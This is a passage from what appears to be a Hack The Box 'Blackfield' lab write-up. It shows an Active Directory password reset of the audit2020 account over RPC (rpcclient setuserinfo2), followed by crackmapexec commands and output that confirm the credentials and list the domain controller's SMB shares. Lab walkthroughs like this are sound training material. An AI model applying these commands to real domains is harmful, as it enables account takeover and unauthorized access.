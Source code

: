 ![bloodhound3](/assets/img/Posts/Blackfield/bloodhound3.png)

### Password Reset- RPC

I followed this [**article**](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) to reset AD user password using RPC:

```shell
cfx:  ~/Documents/htb/blackfield
→ rpcclient 10.10.10.192 -U support
Enter WORKGROUP\support's password:
rpcclient $> setuserinfo2 audit2020 23 'c0ldfx!'
rpcclient $> exit
```
### SMB Access - Audit2020

Now that we have changed password for user `audit2020` as `c0ldfx!`, let's fire up crackmapexec to confirm these credentials:

```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'c0ldfx!'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:c0ldfx!

cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'c0ldfx!' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:c0ldfx!
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```
